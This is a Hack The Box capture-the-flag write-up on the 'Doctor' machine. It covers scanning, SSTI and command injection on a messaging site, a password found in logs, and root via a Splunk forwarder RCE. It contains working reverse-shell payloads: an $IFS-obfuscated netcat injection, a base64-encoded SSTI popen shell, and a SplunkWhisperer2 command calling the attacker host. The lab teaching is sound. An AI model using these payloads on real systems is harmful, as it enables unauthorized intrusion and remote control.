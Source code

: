 ```yaml
---
title: Hackthebox - Doctor
date: 2020-09-30 00:00:00 +0530
categories: [hackthebox, linux]
tags: [splunk 8.0.5, csrf, ssti, splunkwhisperer2]     # TAG names should always be lowercase
image: /assets/img/posts/doctor/doctor_banner.png
---
```



![](/assets/img/posts/doctor/doctor_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.209 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.209`
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
```
## Splunk

**[Splunk](https://www.splunk.com/) :** software for searching, monitoring, and analyzing machine-generated big data via a Web-style interface.

**Goto :** https://10.10.10.209:8089/ `Splunk Atom Feed: splunkd`

**Access :** Denied, need creds to access `services`

**Version :** server has Splunk build: 8.0.5 

**vulnerability :** [Abusing-Splunk-Forwarders](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)

**Exploit :** [PySplunkWhisperer](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

*Exploit requires creds*

## Web_server

- going through webserver on port `80` first thing i notice is a email address,

	  info@doctors.htb
	 
- I add domain `doctors.htb` from that email to `/etc/hosts` and check i there is any difference.
- **goto** `doctors.htb` redirected to `http://doctors.htb/login?next=%2F` and land on a login page .

### Enumerating doctors.htb

- try default logins or some injection on login page but got nothing .
- in the top right corner there is a Register button .

**Note :** registering a new account only valid for 20 minutes as the domain shows this message after registering account
```
Your account has been created, with a time limit of twenty minutes! 
```
- after login i check pages source codes and found a comment

	  <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
	  
- **goto** `http://doctors.htb/archive` got blank page viewing source got `<title>Archive</title>`

- this domain `Doctor Secure Messaging` all about posting staff messages.
- as a logged in user i can post a message, so i create a new message.
- my post is on `http://doctors.htb/post/2` 
- this shows `post/2` but this is my first post, i check first post and this is a post from admin and nothing interested here.
- I also check `/archive` source again and the `<title>` tag now updated with my post title
- try injections on `http://doctors.htb/post/new` page
- i use different injection payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- found 2 successful injections in `http://doctors.htb/post/new`
    - **CSRF** in `Content` field
    - **SSTI** in `title` field

*I learn Both Attacks from scratch*

*some resources that help me*

**Server-Side Template Injection**

https://www.youtube.com/watch?v=3cT0uE7Y87s

https://portswigger.net/research/server-side-template-injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

**Cross-site request forgery**

https://www.youtube.com/watch?v=vRBihr41JTo

https://portswigger.net/web-security/csrf


#### CSRF Test

**Payload** `<a href="http://tun0/test">TestURL</a>`

**Response** `10.10.10.209 - - [05/Nov/2020 15:24:15] "GET /test HTTP/1.1" 200 -`

#### SSTI Test

**Payload** 

```py
{ { 7 * 7 } }
```

**Response** in `/archive` page source code `<title>` tag updated as `49`


# User Exploit

*Both injection give shell in the box*

## with CSRF

**Payload :** `http://tun0/$(nc.traditional$IFS-e/bin/sh$IFS'tun0'$IFS'4141')`

- load the payload in Content field and post the message and shell pop in netcat .
- spaces in the code are a problem for the execution of the code,
- thats why i use `$IFS` as this is a space-replacer for Linux Bash .
	- [IFS](https://mywiki.wooledge.org/IFS) : 
	variable is used in shells (Bourne, POSIX, ksh, bash) as the input field separator
	The default value of IFS is space, tab, newline. 

## with SSTI

**Payload :**

![](/assets/img/posts/doctor/ssti-payload1.png)

<!-- base64 encoded payload
eyUgd2l0aCBzc3RpID0gcmVxdWVzdFsiYXBwbGljYXRpb24iXVsiXHg1Zlx4NWZnbG9iYWxzXHg1Zlx4NWYiXVsiXHg1Zlx4NWZidWlsdGluc1x4NWZceDVmIl1bIlx4NWZceDVmaW1wb3J0XHg1Zlx4NWYiXSgib3MiKVsicG9wZW4iXSgiZWNobyAtbiBMMkpwYmk5aVlYTm9JQzFqSUNkaVlYTm9JQzFwSUQ0bUlDOWtaWFl2ZEdOd0x6RXdMakV3TGpFMUxqY3hMelF4TkRFZ01ENG1NU2M9IHwgYmFzZTY0IC1kIHwgYmFzaCIpWyJyZWFkIl0oKSAlfSAlMjU3QiUyNTdCc3N0aSUyNTdEJTI1N0QgeyUgZW5kd2l0aCAlfQ==
-->

got that working payload from : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset

- load the payload in title field and post the message than go to `/archive` execute the payload and pop shell in netcat .

### Enumerating web@doctor

- `cat /etc/passwd` shows two users

	  shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
	  splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash

- linpeas script password string in apache2 logs

	  /var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

- got password, i tried that password for both users and worked for user `shaun`
	`shaun:Guitar123`

```
shaun@doctor:~$ cat user.txt
cat user.txt
aaaab5f8************************
```

# Local Enumeration

- I already found a Auth RCE for [Splunk](README.md#splunk) so first i try to login with these cred in splunk on port 8089
- login successful and i run that [exploit](exploit/SplunkWhisperer2_RCE.py)

# Root Privesc

## SplunkWhisperer RCE

`python SplunkWhisperer2_RCE.py --host 10.10.10.209 --username shaun --password Guitar123 --lhost tun0 --payload 'nc.traditional -e '/bin/sh' tun0 4242'`

- open netcat listener
- The exploit is straightforward and get a direct rootshell on nc listener .
```
root@doctor:/root# cat root.txt
cat root.txt
e03b774e************************
```